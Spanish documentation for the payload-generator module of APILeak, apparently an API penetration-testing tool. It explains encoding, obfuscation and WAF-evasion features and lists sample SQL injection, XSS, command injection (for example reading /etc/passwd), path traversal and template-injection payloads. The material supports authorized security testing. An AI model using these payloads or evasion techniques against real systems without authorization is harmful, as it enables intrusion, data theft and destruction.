

# Payload Generator

El **Payload Generator** es un componente avanzado de APILeak que proporciona capacidades sofisticadas de generación, codificación y ofuscación de payloads para pruebas de seguridad en APIs. Este módulo implementa técnicas avanzadas de evasión de WAF y generación de payloads específicos por vulnerabilidad.

## 📋 Tabla de Contenidos

- [Características Principales](#características-principales)
- [Arquitectura](#arquitectura)
- [Tipos de Codificación](#tipos-de-codificación)
- [Técnicas de Ofuscación](#técnicas-de-ofuscación)
- [Generación de Payloads por Vulnerabilidad](#generación-de-payloads-por-vulnerabilidad)
- [Sistema de Templates](#sistema-de-templates)
- [Expansión de Wordlists](#expansión-de-wordlists)
- [Configuración](#configuración)
- [Ejemplos de Uso](#ejemplos-de-uso)
- [Integración con Otros Módulos](#integración-con-otros-módulos)
- [Rendimiento y Optimización](#rendimiento-y-optimización)

## 🚀 Características Principales

### ✅ Codificación Múltiple
- **URL Encoding**: Codificación estándar para URLs (`%20`, `%27`, etc.)
- **Base64 Encoding**: Codificación Base64 para evasión de filtros
- **HTML Encoding**: Entidades HTML (`&lt;`, `&gt;`, etc.)
- **Unicode Encoding**: Codificación Unicode (`\u0027`, etc.)
- **Double URL Encoding**: Doble codificación URL para bypass avanzado
- **Hexadecimal Encoding**: Codificación hexadecimal

### ✅ Técnicas de Ofuscación
- **Variaciones de Case**: Mayúsculas, minúsculas, mixtas, alternadas
- **Mutaciones de Caracteres**: Sustituciones y transformaciones
- **Inserción de Espacios**: Diferentes tipos de caracteres de espacio
- **Inserción de Comentarios**: Comentarios SQL/código para bypass
- **Concatenación de Strings**: Técnicas de concatenación

### ✅ Payloads Específicos por Vulnerabilidad
- **SQL Injection**: Time-based, error-based, union-based, boolean-based
- **XSS**: Reflected, stored, DOM-based, filter evasion
- **Command Injection**: Linux/Windows, time-based detection
- **Path Traversal**: Múltiples OS, variantes codificadas
- **SSTI**: Server-Side Template Injection
- **NoSQL Injection**: MongoDB, JavaScript injection

### ✅ Adaptación por Framework
- **FastAPI**: Payloads específicos para FastAPI
- **Django**: Templates Django, configuraciones específicas
- **Express**: Payloads Node.js/Express
- **Flask**: Templates Flask, SSTI específicos

## 🏗️ Arquitectura



## 🔐 Tipos de Codificación

### URL Encoding
Codifica caracteres especiales para uso en URLs:

```python
from utils.payload_generator import PayloadGenerator, EncodingType

generator = PayloadGenerator()
payload = "' OR '1'='1' --"

# Generar versión URL encoded
encoded = generator.generate_encoded_payloads(payload, [EncodingType.URL])
# Resultado: %27%20OR%20%271%27%3D%271%27%20--
```

### Base64 Encoding
Codifica payloads en Base64 para evasión:

```python
# Generar versión Base64
encoded = generator.generate_encoded_payloads(payload, [EncodingType.BASE64])
# Resultado: JyBPUiAnMSc9JzEnIC0t
```

### Unicode Encoding
Convierte caracteres a representación Unicode:

```python
# Generar versión Unicode
encoded = generator.generate_encoded_payloads(payload, [EncodingType.UNICODE])
# Resultado: \u0027\u0020\u004f\u0052\u0020\u0027\u0031\u0027\u003d\u0027\u0031\u0027\u0020\u002d\u002d
```

### Codificación Combinada
Aplica múltiples codificaciones en secuencia:

```python
# Múltiples codificaciones
encodings = [EncodingType.URL, EncodingType.BASE64, EncodingType.UNICODE]
encoded = generator.generate_encoded_payloads(payload, encodings)
# Genera todas las combinaciones posibles
```

## 🎭 Técnicas de Ofuscación

### Variaciones de Case
Genera diferentes variaciones de mayúsculas y minúsculas:

```python
from utils.payload_generator import ObfuscationType

payload = "SELECT * FROM users"
obfuscated = generator.apply_obfuscation(payload, [ObfuscationType.CASE_VARIATION])

# Resultados:
# - SELECT * FROM USERS
# - select * from users  
# - SeLeCt * FrOm UsErS
# - sElecT * froM uSErs
```

### Mutaciones de Caracteres
Aplica sustituciones de caracteres para evasión:

```python
payload = "' OR '1'='1' --"
obfuscated = generator.apply_obfuscation(payload, [ObfuscationType.MUTATION])

# Resultados:
# - %27 OR %271%27=%271%27 --
# - ' || '1'='1' --
# - ' OR '1' LIKE '1' --
```

### Inserción de Espacios
Inserta diferentes tipos de caracteres de espacio:

```python
payload = "UNION SELECT"
obfuscated = generator.apply_obfuscation(payload, [ObfuscationType.WHITESPACE_INSERTION])

# Resultados:
# - UNION\tSELECT
# - UNION\nSELECT
# - UNION\rSELECT
```

### Inserción de Comentarios
Inserta comentarios SQL/código para bypass:

```python
payload = "SELECT password FROM users"
obfuscated = generator.apply_obfuscation(payload, [ObfuscationType.COMMENT_INSERTION])

# Resultados:
# - SELECT/**/password/**/FROM/**/users
# - SELECT -- comment\npassword FROM users
# - SELECT # comment\npassword FROM users
```

## 🎯 Generación de Payloads por Vulnerabilidad

### SQL Injection
Genera payloads específicos para inyección SQL:

```python
from utils.payload_generator import VulnerabilityType

sql_payloads = generator.generate_injection_payloads(VulnerabilityType.SQL_INJECTION)

# Ejemplos de payloads generados:
# - ' OR '1'='1' --
# - '; DROP TABLE users; --
# - ' UNION SELECT 1,2,3 --
# - '; WAITFOR DELAY '00:00:05' --
# - ' AND (SELECT COUNT(*) FROM information_schema.tables) > 0 --
```

### XSS (Cross-Site Scripting)
Genera payloads para ataques XSS:

```python
xss_payloads = generator.generate_injection_payloads(VulnerabilityType.XSS)

# Ejemplos de payloads generados:
# - <script>alert('XSS')</script>
# - 
# - <svg onload=alert('XSS')>
# - javascript:alert('XSS')
# - <iframe src=javascript:alert('XSS')></iframe>
```

### Command Injection
Genera payloads para inyección de comandos:

```python
cmd_payloads = generator.generate_injection_payloads(VulnerabilityType.COMMAND_INJECTION)

# Ejemplos de payloads generados:
# - ; cat /etc/passwd
# - | whoami
# - && id
# - `uname -a`
# - $(whoami)
# - ; ping -c 4 127.0.0.1
```

### Path Traversal
Genera payloads para path traversal:

```python
path_payloads = generator.generate_injection_payloads(VulnerabilityType.PATH_TRAVERSAL)

# Ejemplos de payloads generados:
# - ../../../etc/passwd
# - ..\\..\\..\\windows\\system32\\drivers\\etc\\hosts
# - %2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
# - ....//....//....//etc/passwd
```

### Server-Side Template Injection (SSTI)
Genera payloads para SSTI:

```python
ssti_payloads = generator.generate_injection_payloads(VulnerabilityType.SSTI)

# Ejemplos de payloads generados:
# - {{7*7}}
# - ${7*7}
# - {{config.items()}}
# - {{request.environ}}
# - {{''.__class__.__mro__[2].__subclasses__()}}
```

## 📋 Sistema de Templates

### Templates por Defecto
El sistema incluye templates predefinidos para cada tipo de vulnerabilidad:

```yaml
# templates/payloads/advanced_sql_injection.yaml
name: "Advanced SQL Injection"
vulnerability_type: "sql_injection"
description: "Advanced SQL injection payloads with time-based and error-based techniques"
base_payloads:
  - "' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) --"
  - "'; WAITFOR DELAY '00:00:05' --"
  - "' AND (SELECT SUBSTRING(@@version,1,1))='5' --"
variations:
  - "admin"
  - "root"
  - "test"
encodings:
  - "url"
  - "unicode"
  - "hex"
obfuscations:
  - "case_variation"
  - "mutation"
  - "comment_insertion"
```

### Templates Personalizados
Puedes crear templates personalizados:

```python
from utils.payload_generator import PayloadGenerationConfig

config = PayloadGenerationConfig(
    custom_templates_dir="mi_directorio/templates"
)
generator = PayloadGenerator(config)
```

### Información de Templates
Obtener información sobre templates disponibles:

```python
# Listar tipos de vulnerabilidad disponibles
vuln_types = generator.get_available_vulnerability_types()

# Obtener información detallada de templates
sql_templates = generator.get_template_info(VulnerabilityType.SQL_INJECTION)
for template in sql_templates:
    print(f"Template: {template['name']}")
    print(f"Payloads: {template['payload_count']}")
    print(f"Encodings: {template['encodings']}")
```

## 📚 Expansión de Wordlists

### Expansión con Prefijos
Expande wordlists agregando prefijos comunes:

```python
wordlist = ["users", "admin", "api"]
prefixes = ["v1/", "v2/", "api/"]

expanded = generator.expand_wordlist(wordlist, prefixes=prefixes)

# Resultado:
# - users, admin, api (originales)
# - v1/users, v1/admin, v1/api
# - v2/users, v2/admin, v2/api  
# - api/users, api/admin, api/api
```

### Expansión con Sufijos
Expande wordlists agregando sufijos comunes:

```python
wordlist = ["users", "admin", "api"]
suffixes = ["/list", "/create", "/delete"]

expanded = generator.expand_wordlist(wordlist, suffixes=suffixes)

# Resultado:
# - users, admin, api (originales)
# - users/list, users/create, users/delete
# - admin/list, admin/create, admin/delete
# - api/list, api/create, api/delete
```

### Expansión Combinada
Combina prefijos y sufijos:

```python
wordlist = ["users", "admin"]
prefixes = ["v1/", "api/"]
suffixes = ["/list", "/create"]

expanded = generator.expand_wordlist(wordlist, prefixes, suffixes)

# Resultado incluye todas las combinaciones:
# - v1/users/list, v1/users/create
# - v1/admin/list, v1/admin/create
# - api/users/list, api/users/create
# - api/admin/list, api/admin/create
```

## ⚙️ Configuración

### Configuración Básica
```python
from utils.payload_generator import PayloadGenerationConfig, EncodingType, ObfuscationType

config = PayloadGenerationConfig(
    enabled_encodings=[EncodingType.URL, EncodingType.BASE64, EncodingType.UNICODE],
    enabled_obfuscations=[ObfuscationType.CASE_VARIATION, ObfuscationType.MUTATION],
    max_variations_per_payload=10,
    include_original=True,
    custom_templates_dir="templates/payloads"
)

generator = PayloadGenerator(config)
```

### Configuración Avanzada via YAML
```yaml
# config/payload_generator_config.yaml
payload_generation:
  enabled: true
  
  encodings:
    enabled: true
    types: ["url", "base64", "html", "unicode", "double_url", "hex"]
    include_original: true
    max_variations: 10

  obfuscation:
    enabled: true
    techniques: ["case_variation", "mutation", "whitespace_insertion", "comment_insertion"]
    max_variations: 8

  vulnerability_payloads:
    enabled: true
    sql_injection:
      enabled: true
      include_time_based: true
      include_error_based: true
    xss:
      enabled: true
      include_filter_evasion: true

  framework_adaptation:
    enabled: true
    auto_adapt: true
    frameworks:
      fastapi:
        enabled: true
        focus_vulnerabilities: ["sql_injection", "xss"]
      django:
        enabled: true
        focus_vulnerabilities: ["sql_injection", "ssti"]

  performance:
    max_payloads_per_type: 100
    enable_caching: true
    parallel_generation: true
    worker_threads: 4
```

## 💡 Ejemplos de Uso

### Ejemplo 1: Generación Básica de Payloads
```python
from utils.payload_generator import PayloadGenerator, VulnerabilityType

# Crear generador
generator = PayloadGenerator()

# Generar payloads SQL injection
sql_payloads = generator.generate_injection_payloads(VulnerabilityType.SQL_INJECTION)

# Usar en fuzzing
for payload in sql_payloads[:10]:  # Primeros 10 payloads
    test_url = f"https://api.example.com/users?id={payload}"
    # Realizar request de prueba
```

### Ejemplo 2: Codificación para Evasión de WAF
```python
# Payload que podría ser bloqueado por WAF
dangerous_payload = "<script>alert('XSS')</script>"

# Generar versiones codificadas
encoded_payloads = generator.generate_encoded_payloads(dangerous_payload)

# Probar cada versión codificada
for encoded in encoded_payloads:
    test_data = {"comment": encoded}
    # Enviar request con payload codificado
```

### Ejemplo 3: Adaptación por Framework
```python
# Detectar framework (ejemplo: FastAPI detectado)
detected_framework = "fastapi"

# Generar payloads específicos para FastAPI
fastapi_payloads = generator.generate_framework_specific_payloads(
    detected_framework, 
    VulnerabilityType.SQL_INJECTION
)

# Usar payloads optimizados para FastAPI
for payload in fastapi_payloads:
    # Probar contra API FastAPI
    pass
```

### Ejemplo 4: Expansión de Wordlists para Discovery
```python
# Endpoints base descubiertos
base_endpoints = ["users", "admin", "config"]

# Expandir con patrones comunes de API
expanded_endpoints = generator.expand_wordlist(
    base_endpoints,
    prefixes=["v1/", "v2/", "api/", "internal/"],
    suffixes=["/list", "/create", "/update", "/delete", "/search"]
)

# Usar endpoints expandidos para discovery
for endpoint in expanded_endpoints:
    test_url = f"https://api.example.com/{endpoint}"
    # Probar endpoint
```

### Ejemplo 5: Configuración Personalizada
```python
from utils.payload_generator import PayloadGenerationConfig, EncodingType

# Configuración para evasión agresiva de WAF
aggressive_config = PayloadGenerationConfig(
    enabled_encodings=[
        EncodingType.URL, 
        EncodingType.DOUBLE_URL, 
        EncodingType.UNICODE, 
        EncodingType.HEX
    ],
    enabled_obfuscations=[
        ObfuscationType.CASE_VARIATION,
        ObfuscationType.MUTATION,
        ObfuscationType.WHITESPACE_INSERTION,
        ObfuscationType.COMMENT_INSERTION
    ],
    max_variations_per_payload=20,
    include_original=False  # Solo versiones ofuscadas
)

aggressive_generator = PayloadGenerator(aggressive_config)

# Generar payloads altamente ofuscados
obfuscated_payloads = aggressive_generator.generate_injection_payloads(
    VulnerabilityType.XSS
)
```

## 🔗 Integración con Otros Módulos

### Integración con Fuzzing Engine
```python
# En el módulo de fuzzing
from utils.payload_generator import PayloadGenerator, VulnerabilityType

class ParameterFuzzer:
    def __init__(self):
        self.payload_generator = PayloadGenerator()
    
    def fuzz_parameter(self, endpoint, parameter):
        # Generar payloads para diferentes vulnerabilidades
        sql_payloads = self.payload_generator.generate_injection_payloads(
            VulnerabilityType.SQL_INJECTION
        )
        xss_payloads = self.payload_generator.generate_injection_payloads(
            VulnerabilityType.XSS
        )
        
        all_payloads = sql_payloads + xss_payloads
        
        for payload in all_payloads:
            # Probar payload en parámetro
            self.test_payload(endpoint, parameter, payload)
```

### Integración con OWASP Modules
```python
# En módulos OWASP
class BOLATestingModule:
    def __init__(self):
        self.payload_generator = PayloadGenerator()
    
    def test_object_enumeration(self, endpoint):
        # Expandir IDs con patrones comunes
        base_ids = ["1", "2", "admin", "test"]
        expanded_ids = self.payload_generator.expand_wordlist(
            base_ids,
            prefixes=["user_", "id_", "obj_"],
            suffixes=["_admin", "_test", "_backup"]
        )
        
        for object_id in expanded_ids:
            # Probar acceso a objeto
            self.test_object_access(endpoint, object_id)
```

### Integración con WAF Detection
```python
# Cuando se detecta WAF
class WAFEvasionModule:
    def __init__(self):
        self.payload_generator = PayloadGenerator()
    
    def evade_waf(self, detected_waf, base_payload):
        if detected_waf == "cloudflare":
            # Usar técnicas específicas para Cloudflare
            encoded = self.payload_generator.generate_encoded_payloads(
                base_payload, 
                [EncodingType.UNICODE, EncodingType.DOUBLE_URL]
            )
        elif detected_waf == "aws_waf":
            # Usar técnicas específicas para AWS WAF
            obfuscated = self.payload_generator.apply_obfuscation(
                base_payload,
                [ObfuscationType.CASE_VARIATION, ObfuscationType.COMMENT_INSERTION]
            )
        
        return encoded or obfuscated
```

## ⚡ Rendimiento y Optimización

### Configuración de Rendimiento
```python
# Configuración optimizada para rendimiento
performance_config = PayloadGenerationConfig(
    max_variations_per_payload=5,  # Limitar variaciones
    enable_caching=True,           # Habilitar caché
    parallel_generation=True,      # Generación paralela
    worker_threads=4               # Hilos de trabajo
)
```

### Caché de Payloads
El sistema incluye caché automático para mejorar rendimiento:

```python
# Los payloads se cachean automáticamente
generator = PayloadGenerator()

# Primera llamada: genera y cachea
payloads1 = generator.generate_injection_payloads(VulnerabilityType.SQL_INJECTION)

# Segunda llamada: usa caché (más rápido)
payloads2 = generator.generate_injection_payloads(VulnerabilityType.SQL_INJECTION)
```

### Generación Paralela
Para wordlists grandes, la generación se paraleliza automáticamente:

```python
# Wordlist grande se procesa en paralelo
large_wordlist = [f"endpoint_{i}" for i in range(1000)]
expanded = generator.expand_wordlist(
    large_wordlist,
    prefixes=["v1/", "v2/", "api/"],
    suffixes=["/list", "/create", "/delete"]
)
# Procesamiento automático en múltiples hilos
```

### Métricas de Rendimiento
```python
import time

start_time = time.time()

# Generar payloads
payloads = generator.generate_injection_payloads(VulnerabilityType.SQL_INJECTION)

end_time = time.time()
print(f"Generados {len(payloads)} payloads en {end_time - start_time:.2f} segundos")
```

## 🛡️ Consideraciones de Seguridad

### Uso Responsable
- **Solo en entornos autorizados**: Usar únicamente en sistemas propios o con autorización explícita
- **Respeto a rate limits**: No sobrecargar sistemas objetivo
- **Documentación de pruebas**: Mantener registro de todas las pruebas realizadas

### Limitaciones de Payloads
```python
# Configurar límites para evitar DoS accidental
safe_config = PayloadGenerationConfig(
    max_variations_per_payload=10,  # Limitar variaciones
    max_payloads_per_type=50       # Limitar payloads totales
)
```

### Validación de Entrada
```python
# El sistema valida automáticamente las entradas
try:
    payloads = generator.generate_encoded_payloads(user_input)
except ValueError as e:
    print(f"Entrada inválida: {e}")
```

## 🔧 Troubleshooting

### Problemas Comunes

#### Error: "No templates found"
```python
# Verificar directorio de templates
config = PayloadGenerationConfig(
    custom_templates_dir="templates/payloads"  # Verificar ruta
)

# Verificar que existan archivos .yaml en el directorio
import os
template_files = os.listdir("templates/payloads")
print(f"Templates encontrados: {template_files}")
```

#### Rendimiento Lento
```python
# Optimizar configuración
fast_config = PayloadGenerationConfig(
    max_variations_per_payload=5,    # Reducir variaciones
    enable_caching=True,             # Habilitar caché
    parallel_generation=True         # Usar paralelización
)
```

#### Memoria Insuficiente
```python
# Procesar en lotes más pequeños
def generate_in_batches(generator, vuln_type, batch_size=100):
    all_payloads = generator.generate_injection_payloads(vuln_type)
    
    for i in range(0, len(all_payloads), batch_size):
        batch = all_payloads[i:i + batch_size]
        yield batch

# Usar generador por lotes
for batch in generate_in_batches(generator, VulnerabilityType.SQL_INJECTION):
    # Procesar lote
    process_payload_batch(batch)
```

## 📊 Métricas y Estadísticas

### Estadísticas de Generación
```python
# Obtener estadísticas de payloads generados
stats = {
    'sql_injection': len(generator.generate_injection_payloads(VulnerabilityType.SQL_INJECTION)),
    'xss': len(generator.generate_injection_payloads(VulnerabilityType.XSS)),
    'command_injection': len(generator.generate_injection_payloads(VulnerabilityType.COMMAND_INJECTION)),
    'path_traversal': len(generator.generate_injection_payloads(VulnerabilityType.PATH_TRAVERSAL))
}

print("Payloads generados por tipo:")
for vuln_type, count in stats.items():
    print(f"  {vuln_type}: {count} payloads")
```

### Análisis de Cobertura
```python
# Analizar cobertura de templates
vuln_types = generator.get_available_vulnerability_types()
coverage = {}

for vuln_type in vuln_types:
    templates = generator.get_template_info(vuln_type)
    total_payloads = sum(t['payload_count'] for t in templates)
    coverage[vuln_type.value] = {
        'templates': len(templates),
        'total_payloads': total_payloads
    }

print("Cobertura de templates:")
for vuln_type, info in coverage.items():
    print(f"  {vuln_type}: {info['templates']} templates, {info['total_payloads']} payloads base")
```

---

## 📚 Referencias

- **[Configuración Avanzada](configuration.md)** - Configuración detallada del sistema
- **[WAF Evasion Guide](waf-evasion.md)** - Técnicas de evasión de WAF
- **[Testing Guide](testing.md)** - Estrategias de testing
- **[API Reference](api-reference.md)** - Referencia completa de la API

## 🤝 Contribuciones

Para contribuir al Payload Generator:

1. Crear nuevos templates en `templates/payloads/`
2. Agregar nuevas técnicas de codificación
3. Implementar nuevas técnicas de ofuscación
4. Mejorar la documentación

Ver [Contributing Guide](../CONTRIBUTING.md) para más detalles.

---

**¡El Payload Generator está listo para pruebas de seguridad avanzadas!** 🚀🛡️